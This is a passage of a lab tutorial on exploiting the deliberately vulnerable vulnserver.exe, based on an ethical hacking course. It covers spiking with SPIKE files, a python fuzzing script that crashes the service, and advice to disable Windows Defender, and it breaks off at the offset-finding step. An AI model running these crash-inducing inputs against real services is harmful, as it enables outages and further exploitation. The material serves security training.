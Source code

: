 # A simple walkthrough for a windows vulnerable server (vulnserver.exe)

This tutorial is based on the "Practical Ethical Hacking - The Complete Course", a Udemy course made by Mr. Heath Adams (The Cyber Mentor)

# Requirements
- Download and install: Kali (for attacker machine) and windows 10 (victim's machine)
- Immunity Debugger: https://www.immunityinc.com/products/debugger/
- Vulnserver: http://www.thegreycorner.com/p/vulnserver.html

# Things to remember:
1. Make sure you disable the Windows Defender in Windows VM.
2. Allow files and printer sharing in your firewall (make sure you can ping windows VM from your Kali VM).
3. Always run Immunity Debugger (IMD) and Vulnserver.exe as Administrator.
4. Close and re-run Immunity Debugger and Vulnserver.exe after an attack from Kali machine to prevent issues.

# Steps to conduct bufferoverflow
1. Spiking 
2. Fuzzing  
3. Find the Offset
4. Overwriting the EIP
5. Finding Bad Characters
6. Finding Right Modules (MSF)
7. Generating shellcode (MSF)
8. Root!

## I. Spiking
1. On windows, open vulnserver.exe (always run as administrator)
2. On Kali VM, try to test if Kali can connect to Windows via netcat. Usuallly, vulnserver runs on port 9999.
```
$ nc -nv 192.168.17.134 9999
```
This will be the result if you type **HELP**

![HELP_cmd](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/HELP_command.png)

>We can use these command to test if the target is vulnerable to bufferoverflow. \
>We will try use STATS but **spoiler alert, TRUN is the correct payload for this exercise.

3. We will create files with payload and try if the target machine is vulnerable to bufferoverflow. Create a filed called '[stats.spk](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/stats.spk)' and ‘[trun.spk](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/trun.spk)’

>stats.spk

````spk
s_readline();
s_string("STATS ");
s_string_variable("0");
````
>trun.spk

```
s_readline();
s_string("TRUN ");
s_string_variable("0");
```
4. Open **IMD** as administrator, click File > Attach > select vulnserver > click Attach > click the run icon ![IMD_run_icon](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/IMD_run_icon.png)

   ![file_attach_img](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/file_attach.png)

   ![vulnserver_attach_img](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/vulnserver_attach.png)

It will look something like this

   ![imd_vulnserver_attached_img](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/imd_vulnserver_attached.png)

>In the lower right you can see the status **Paused** ![paused_img](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/paused.png) \
>Click the run button on the menu ![IMD_run_icon](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/IMD_run_icon.png) to change the status to **Running** ![running_status](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/running.png) 

5. On Kali, run **generic_send_tcp** <target_ip> <port> <payload_file.spk> 0 0.

```
$ generic_send_tcp 192.168.17.134 9999 stats.spk 0 0
```

   ![fuzzing_output_img](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/fuzzing_output.png) 

>**IMPORTANT NOTE!** Always close and re-run the IMD and vulnserver.exe as administrator before doing new attack test.

6. Check the **IMD**, **STATS** command will not make the target crash so we will try the **TRUN** command.

```
$ generic_send_tcp 192.168.17.134 9999 trun.spk 0 0
```

>Check the **IMD** again and it should look like this. We can see bunch of **A**s and hex **41414141** \
>**41** means hex of letter **A**. Four bytes of **41** is equal to hex **41414141** \
>Our payload using **TRUN** command is successful and made the vulnserver crashed!!! Now we confirmed that the server is vulnerable to bufferoverflow!

   ![spiking_srcshot](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/spiking_srcshot.png) 

>**Q: How and why the system crashed?** \
>A: By sending bunch of As, to the stack buffer. The stack buffer (EAX register) over flows and we successfully allocated As to the Base Pointer (EBP) and Instruction Pointer (EIP). We can see that EBP and EIP values are all 41414141


>**Q: What is EIP and why it is very important to understand?** \
>A: The Instruction Pointer (IP) is where the actual command executes!! So, if we can overwrite this, we can send malicious code and gain reverse shell.

## II. Fuzzing

1. We will automate the sending of bunch of As using python script. Make a python2 script ‘fuzz.py’ and copy paste this script.

>fuzz.py

````python
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = 'A' * 100 

while True:
	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('192.168.17.134', 9999))

		s.send(('TRUN /.:/' + buffer))
		s.close()
		sleep(1) 
		buffer = buffer + 'A' * 100
		
	except:
		print "Fuzzing crashed at %s bytes" % str(len(buffer)) 
		sys.exit()

````

> Dont forget to change its permission to executable. 

```
$ chmod +x fuzz.py
```

>**Q: What does this code do?** \
>A: The script sends 100 As to the vulnserver then it adds another 100 As, so the buffers grows every iteration until it crash.

2. Close and re-run the **IMD** and **vulnserver.exe**. Re-attach vulnserver to IMD then hit the Run button. Makse sure the status is '**Runing**'.

3. Run the python2 script:

```
$ ./fuzz.py
```

4. Observe the **IMD** and wait for it to crash then immediately terminate the fuzz.py script by pressing **CTRL + C**. \
   We can see in the **IMD* that the vulserver crash by checking its status to **Paused** and also we see again the bunch of As in the **Registers** section.

   ![fuzzing_crashed](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/fuzzing_crashed.png)

5. We see that the vulnserver crashed at around 2200 bytes. So the Offset must be less than 2200 bytes. \
   If you CTRL + C and your result is not 2200 bytes, that's okay because the Offset must be less than what you get in the result.

## III. Finding the Offset

















































